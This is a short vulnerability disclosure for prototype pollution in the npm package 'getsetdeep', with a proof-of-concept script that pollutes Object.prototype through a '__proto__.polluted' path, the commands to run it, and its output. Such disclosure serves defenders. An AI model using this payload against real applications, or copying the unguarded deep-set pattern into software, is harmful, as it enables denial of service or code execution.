 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var getsetdeep = require("getsetdeep")
const obj = {}
console.log("Before : " + {}.polluted);
getsetdeep.setDeep(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i getsetdeep # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! It's Polluted
```

